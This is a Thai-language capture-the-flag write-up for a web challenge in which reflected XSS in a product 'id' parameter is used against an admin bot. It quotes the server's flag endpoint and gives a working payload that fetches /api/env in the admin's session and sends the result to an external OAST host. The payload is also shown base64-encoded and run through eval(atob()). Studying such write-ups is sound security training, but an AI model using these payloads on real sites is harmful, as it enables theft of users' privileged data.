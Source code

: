 (ขอขอบคุณเฉลยฟรีจากทาง STH ที่มาไลฟ์ เล่นทำเอาซะปวดหัวเลย)

> หน่วยข่าวกรองได้รับข้อมูลมาว่า แก๊งมิจฉาชีพได้ใช้แบบฟอร์มบนหน้าเว็บไซด์นี้ในการส่งข้อมูลผิดกฎหมาย ทางที่ปรึกษาด้าน CyberSecurity บอกว่า เราอาจจะสามารถ เจาะระบบแก๊งมิจฉาชีพ ได้ถ้าเว็บไซด์นี้มีช่องโหว่ Cross-Site Scripting
> 
> 
> URL เว็บโจทย์ (มี Flag): [https://wtctt24.open.web3.p7z.pw](https://wtctt24.open.web3.p7z.pw/)
> 
> โค้ดเว็บ (ไม่มี Flag): https://static.wtctt24.p7z.pw/open_web3.zip
> 
> หมายเหตุ:
> 
> - Flag จะอยู่ในรูปแบบ flag{junior_webX_XXX} เช่น flag{open_web1_e758148af358200bf364c8d9282b7f04}
> - ช่องโหว่ไม่จำเป็นต้องทำ Port Scan ด้วย Nmap
> - ช่องโหว่ไม่จำเป็นต้องทำ URL Fuzzing เพื่อหา Directory หรือ File ที่เป็นชื่อลับ
> - โจทย์ไม่ได้ถูกออกแบบมาให้แก้ไข โดยใช้โปรแกรมสแกนช่องโหว่อัตโนมัติ

Browse เว็บขึ้นมา มาเป็นร้านลาบูบู้เลยนะ

![image](https://github.com/user-attachments/assets/3b4e57bc-e17d-43f2-af7e-b06d1c6987e1)

เลื่อนลงมาข้างล่าง ก็จะเจอเป็น Direct Message to Admin มีชื่อมีข้อความมีที่วางลิ้ง

![image](https://github.com/user-attachments/assets/1c688bdb-8cf4-48e0-9dc1-3b3a510a0942)

โจทย์ให้โค้ดมาด้วยก็เลยอ่ะ ลองไปอ่านโค้ดซิ

```javascript
route.get("/api/env", (req, res) => {

    if (!cookieHeader) {
        return res.status(403).json({ error: "access denied" });
    }

    const cookies = {};
    cookieHeader.split(';').forEach(cookie => {
        const [key, ...val] = cookie.trim().split('=');
        cookies[key] = val.join('=');
    });

    const accessToken = cookies['access_token'];

    if (accessToken === '<ADMIN_BOT_COOKIE>') {
        return res.json({ flag: "<FLAG>" });
    } else {
        return res.status(403).json({ error: "access denied" });
    }
});
```

เราต้องเอาคุกกี้ admin มาเพื่อไปยิง API env ซึ่งคุกกี้ที่ว่าก็ได้มาจากไหนต้องลองไปหาดู ไหนลองกลับไปดูที่ตัวเว็บอีกทีซิว่ามีอะไรอีกมั้ยที่ยังไม่ได้ดู เปิด page source ขึ้นมา เลื่อนลงไปดูเผื่อมี hint

![image](https://github.com/user-attachments/assets/206af1b4-bcb5-48eb-af32-376621d9cd63)

จะเห็นได้ว่า user admin สามารถเห็น secret menu ได้ แต่ก็ต้องฝันสลายเมื่อ cookie ของ admin โดนคุมกำเนิดด้วย HttpOnly อ่ะ งานหยาบละ (เพราะ HttpOnly มีฤทธิ์ทำให้ไม่สามารถรัน JavaScript จาก XSS ได้)
แต่ก็ยังไม่อับจนหนทาง เมื่อเราสังเกตได้ว่า ตอนที่เราไปคลิก view product เราจะเห็น parameter `id` โผล่มาต่อท้าย URL

![image](https://github.com/user-attachments/assets/32381556-e53d-45d1-ba08-489ee9330e59)

What if ถ้าเราลองยัด Reflected XSS ไปซักตัวล่ะ: `https://wtctt24.open.web3.p7z.pw/?id=%3Cimg+src=x+onerror=alert(1)%3E`

![image](https://github.com/user-attachments/assets/b3c78d2a-6e8d-42e5-beba-7dd50681f191)

โอเค Proof แล้วว่าเราตี XSS ที่ parameter `id` ได้ ซึ่งถ้าเราลองเอา URL ที่ว่านี่ไปใส่ในฟอร์ม admin = admin โดน XSS เต็มๆ แต่เราจะรันยังไงให้แหก HttpOnly ไปเอา cookie ได้ล่ะ
แล้วทำไมเราต้องไปขโมยคุกกี้? ในเมื่อเราสามารถยิงไปหา admin ให้ admin เอา flag มาให้เราตรงๆเลยก็ได้นี่นา จากการงม research และดูเฉลยก็จะได้ว่าเราจะยิง payload นี้ไปเพื่อให้ได้ flag ออกมาจาก API env:

```javascript
fetch("/api/env").then(r=>{r.text().then(t=>{ new Image().src="nfceupocysanalcdgsusjz4bhc62qtt4d.oast.fun/?"+encodeURIComponent(t))})})
```

(อย่าลืมเปิด `ngrok` or `interactsh-client` เอา OAST URL มาแปะใน payload ด้วย)
เราจะทำการยิงไปที่ `/api/env` แล้วให้ admin click link ส่ง flag กลับมาผ่าน request/response ที่จะยิงตรงกลับมาที่ OAST server ของเรา เพื่อป้องกันการถูก sanitize payload เอาไป encode base64 ก่อน

![image](https://github.com/user-attachments/assets/8d88f1c6-c2d5-4b16-888b-31403684d1dc)

แล้วเอา payload มาเข้าตัว XSS ที่เราได้ PoC ไปก่อนหน้านี้ ให้ payload ทำการรันคำสั่งแล้วแปลง base64 เป็นคำสั่งต้นฉบับ ทำให้ admin โดนให้คลิกลิ้งที่เราเตรียมไว้ (ต้องยิงเป็น http ไม่งั้นยิงไม่ได้ มันกันบอต)

![image](https://github.com/user-attachments/assets/1e32f81e-b159-4df0-87f4-7b553b26e772)

```javascript
http://wtctt24.open.web3.p7z.pw/?id=<img src=x onerror=eval(atob(`ZmV0Y2goIi9hcGkvZW52IikudGhlbihyPT57ci50ZXh0KCkudGhlbih0PT57IG5ldyBJbWFnZSgpLnNyYz0i4LmJaHR0cDovL25mY2V1cG9jeXNhbmFsY2Rnc3Vzano0YmhjNjJxdHQ0ZC5vYXN0LmZ1bi8/IitlbmNvZGVVUklDb21wb25lbnQodCkpfSl9KQ==`))>
```

ว่าแล้วก็เอาไปใส่ฟอร์ม กด send รอแป๊บนึงให้ admin ไปยิง env API ให้ แล้วเราจะได้ flag กลับมาเรียบร้อย

![image](https://github.com/user-attachments/assets/aed38e43-64a3-4d02-8781-7c725201c291)

![image](https://github.com/user-attachments/assets/07e6dd45-7165-45eb-8e1c-51720b5f1f51)

![image](https://github.com/user-attachments/assets/87de97a8-5d0a-48e2-a1b4-328f47aed04a)
